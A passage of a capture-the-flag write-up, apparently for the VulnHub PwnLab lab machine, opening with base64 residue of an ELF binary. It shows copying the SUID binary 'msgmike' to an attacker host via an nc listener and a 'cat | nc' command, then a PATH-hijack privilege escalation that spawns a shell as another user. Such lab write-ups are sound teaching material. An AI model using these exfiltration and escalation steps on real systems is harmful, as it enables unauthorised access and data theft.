 BwAABAAAAAAAAAAAAAAABAAAAAQAAADpAAAAAQAAAAMAAAA4lwQIOAcAACAAAAAAAAAAAAAAAAQA
AAAEAAAA8gAAAAEAAAADAAAAWJcECFgHAAAIAAAAAAAAAAAAAAAEAAAAAAAAAPgAAAAIAAAAAwAA
AGCXBAhgBwAABAAAAAAAAAAAAAAAAQAAAAAAAAD9AAAAAQAAADAAAAAAAAAAYAcAADkAAAAAAAAA
AAAAAAEAAAABAAAAEQAAAAMAAAAAAAAAAAAAAJkHAAAGAQAAAAAAAAAAAAABAAAAAAAAAAEAAAAC
AAAAAAAAAAAAAACgCAAAUAQAAB0AAAAtAAAABAAAABAAAAAJAAAAAwAAAAAAAAAAAAAA8AwAAHwC
AAAAAAAAAAAAAAEAAAAAAAAA
{% endhighlight %}

We copy this base64 string to a file called `msgmike.b64` on our machine and then we can decode it:

{% highlight bash %}
$ cat msgmike.b64 | base64 -d > msgmike.bin
$ file msgmike.bin 
msgmike.bin: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=d7e0b21f33b2134bd17467c3bb9be37deb88b365, not stripped
{% endhighlight %}

#### Method #2: nc

- Attacker's machine:

{% highlight bash %}
$ nc -l -p 4444  > msgmike < /dev/null
^C
{% endhighlight %}

- Victim's machine:

{% highlight bash %}
$ cat msgmike | nc 192.168.1.171 4444
{% endhighlight %}

### Analyzing the binary

Thanks to `file` command, we already know that the binary is not stripped which means that it contains symbols that will ease the analysis.

#### ghidra decompilation

Passing the binary to `ghidra`'s decompiler, we can retrieve code close to the original source code:

![main ghidra](/assets/img/vulnhub/linux/pwnlab/ghidra.png)

The binary use `system` function to run `cat`. But there is an issue. Indeed `cat` is called without its absolute path. So if we change our `$PATH` variable and name a malicious binary `cat`, it will be executed with mike's privileges _(since it's a SUID binary)_.

### Exploitation

{% highlight bash %}
kane@pwnlab:~$ which bash
/bin/bash
kane@pwnlab:~$ echo "/bin/bash" > ./cat
kane@pwnlab:~$ cat ./cat
/bin/bash
kane@pwnlab:~$ chmod +x ./cat
kane@pwnlab:~$ echo $PATH
/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
kane@pwnlab:~$ export PATH=.
kane@pwnlab:~$ ./msgmike
bash: dircolors: command not found
bash: ls: command not found
mike@pwnlab:~$ id
id
bash: id: command not found